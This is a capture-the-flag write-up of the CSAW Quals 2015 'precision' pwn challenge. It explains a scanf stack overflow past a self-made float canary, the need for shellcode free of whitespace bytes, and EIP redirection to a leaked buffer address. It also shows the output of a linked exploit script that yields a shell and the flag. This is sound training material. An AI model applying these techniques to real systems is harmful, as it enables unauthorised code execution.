

# CSAW QUALS 2015: precision-100

**Category:** Pwn
**Points:** 100
**Solves:** 272
**Description:**

> nc 54.210.15.77 1259
>
> Updated again!
>
> [precision_a8f6f0590c177948fe06c76a1831e650](precision_a8f6f0590c177948fe06c76a1831e650)


## Write-up

by [polym](https://github.com/abpolym)

This writeup is loosely based on following writeups:

* <https://ctf-team.vulnhub.com/csaw-quals-2015-precision/>
* <https://www.youtube.com/watch?v=0TWlW5MBnKE>
* <http://kikisctf.blogspot.hr/2015/09/csaw-2015-quals-exploitable-100.html>
* <http://blog.isis.poly.edu/2015/09/28/csaw-ctf-precision.html>

### Meta

Vulnerability:

* Stack Overflow via `__isoc99_scanf`
* Self-made canary

We are given an 32 bit ELF for Linux i386:

```bash
$ file precision_a8f6f0590c177948fe06c76a1831e650
precision_a8f6f0590c177948fe06c76a1831e650: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped
```

Running it:

```bash
$ ./precision_a8f6f0590c177948fe06c76a1831e650
Buff: 0xff801988
hello
Got hello
```

Sweet, a stack address!

We can provide input to the binary, lets test it for a stack overflow vulnerability:

```bash
$ python -c 'print "A"*512' | tee in | ./precision_a8f6f0590c177948fe06c76a1831e650
Buff: 0xffd7b798
Nope
```

So it looks like we did trigger something else.

Our next step is looking at the available functions in [radare2](https://github.com/radare/radare2):

```bash
$ r2 precision_a8f6f0590c177948fe06c76a1831e650 
 -- Don't look at the code. Don't look.
[0x08048420]> aa
[0x08048420]> afl | sort -k1 | column -t
0x0804837c  35   3  sym._init
0x080483b0  16   2  sym.imp.printf
0x080483c0  16   2  sym.imp.puts
0x080483d0  16   2  loc.imp.__gmon_start__
0x080483e0  16   2  sym.imp.exit
0x080483f0  16   2  sym.imp.__libc_start_main
0x08048400  16   2  sym.imp.setvbuf
0x08048410  16   2  sym.imp.__isoc99_scanf
0x08048420  34   1  entry0
0x08048450  4    1  sym.__x86.get_pc_thunk.bx
0x08048460  42   4  sym.deregister_tm_clones
0x08048490  55   4  sym.register_tm_clones
0x080484d0  30   3  sym.__do_global_dtors_aux
0x080484f0  45   4  sym.frame_dummy
0x0804851d  187  4  sym.main
0x080485e0  97   4  sym.__libc_csu_init
0x08048650  2    1  sym.__libc_csu_fini
0x08048654  20   1  sym._fini
```

Looks like the binary consists of only `main`.

NOTE: `imp` are imported functions from a library and between `sym.__libc_csu_init` and `sym.frame_dummy` there is only one function, `main`.

We decompile it using `radare2`'s `pdf` command:



If we reverse the binary, we get [this pseudo C-code](./precision-pseudo.c).

The main things to notice here are two things:

* There is a self-made canary that loads static 8 byte as a floating number from `0x8048690` to `esp+0x98` before calling `__isoc99_scanf` and compares the values after the call
* Since there essentially is no limit of characters that we can provide as input, we can smash the stack - a classic stack overflow vulnerability

To get a shell, we have to do following steps:

* Set the right bytes at `esp+0x98`
* Find or craft shellcode that works for `__isoc99_scanf` - e.g. `pwntool`'s [`shellcraft.i386.linux.sh()`](http://pwntools.readthedocs.org/en/latest/shellcraft/i386.html#pwnlib.shellcraft.i386.linux.sh) won't work, since it contains a `0xb`, which is a whitecharacter and triggers `__isoc99_scanf` to stop reading!
* Find the right offset to get control over `EIP` and overwrite it with the leaked stack address (in our case the address of our buffer)

NOTE: To craft the shellcode, I pasted the hex representation of my shellcode (`xxd -p in` , then copy only the shellcode part) to [ODA](https://www.onlinedisassembler.com/odaweb/) and searched for needed opcodes and instructions in the given binary using `radare2`.

[This python code](./solve.py) does the job:

```bash
$ python solve.py 
[+] Started program './precision_a8f6f0590c177948fe06c76a1831e650'
[*] Leaked Stack Addr: ffcb40f8
[*] Enjoy your shell :)!
[*] Switching to interactive mode
$ ls flag
flag
$ cat flag
flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}
```

The flag is `flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}`!

If you need more information or futher clarification, read the other writeups, look at the documented code or debug the binary with the exploit code `in` step by step in [gdb-peda](https://github.com/longld/peda). Or just [create an issue](https://github.com/ctfs/write-ups-2015/issues) explaining what exactly you don't understand!

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/csaw-quals-2015-precision/>
* <http://www.securifera.com/blog/2015/09/22/csaw-2015-precision/>
* <https://www.whitehatters.academy/csaw2015-quals-precision-exploit-100/>
* <http://blog.init-labs.org/2015/09/22/csaw-pwn-100-write-up/>
* <http://kikisctf.blogspot.hr/2015/09/csaw-2015-quals-exploitable-100.html>
* <http://blog.isis.poly.edu/2015/09/28/csaw-ctf-precision.html>
* <https://github.com/ByteBandits/writeups/blob/master/csaw-quals-2015/pwn/precision/sudhackar/README.md>
* <https://www.youtube.com/watch?v=0TWlW5MBnKE>
* <https://github.com/aweinstock314/aweinstock-ctf-writeups/blob/master/csaw_quals_2015/pwn100_precision_sploit.py>
